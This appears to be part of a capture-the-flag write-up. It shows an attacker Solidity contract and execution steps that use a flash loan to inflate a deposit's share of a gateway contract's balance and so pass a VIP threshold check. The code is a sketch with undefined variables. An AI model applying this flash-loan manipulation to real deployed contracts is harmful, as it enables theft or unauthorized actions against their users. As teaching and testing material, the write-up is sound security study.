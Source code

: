 ### 3. Exploit Contract Development

Deploy an attacker contract that:

```solidity
contract FlashBorrower {
    function executeOperation(uint256 amount) external {
        // Called during flash loan callback
        // Balance is reduced, our deposit % is now higher
        
        IEmergencyVIPGateway(gateway).emergencyVIPAction(
            "EXPLOITED_VIA_FLASH_LOAN"
        );
        
        // Repay the loan
        IEmergencyVIPGateway(gateway).repay{value: amount}();
    }
    
    function triggerExploit() external {
        // 1. Deposit maximum allowed (10% of initial balance)
        IEmergencyVIPGateway(gateway).deposit{value: individualCap}();
        
        // 2. Request flash loan (90% of current balance)
        uint256 loanAmount = gatewayBalance * 90 / 100;
        IEmergencyVIPGateway(gateway).requestFlashLoan(loanAmount);
    }
}
```

---

### 4. Execution Flow

**Step-by-step execution:**

Deploy exploit contract:

```python
# Calculate required deposit from contract balance or Fund it with ~0.33 ETH base value (0.32 for deposit + 0.01 gas buffer)
FlashBorrower.deploy(phase2_address, value=0.33 ether)
```

Trigger exploit:

```python
flash_borrower.triggerExploit()
```

**What happens internally:**

```
triggerExploit() called
├─> deposit(0.32 ETH)
├─> requestFlashLoan(~2.6 ETH)
    ├─> Contract calls executeOperation()
    │   ├─> Contract balance now ~0.42 ETH
    │   ├─> Our 0.32 ETH deposit is now 76% of balance!
    │   ├─> VIP threshold: 0.21 ETH (50% of 0.42)
    │   ├─> 0.32 >= 0.21 ✓
    │   ├─> emergencyVIPAction() succeeds!
    │   ├─> hasExploited[FlashBorrower] = true
    │   └─> repay() returns the 2.6 ETH
    └─> Flash loan complete
```
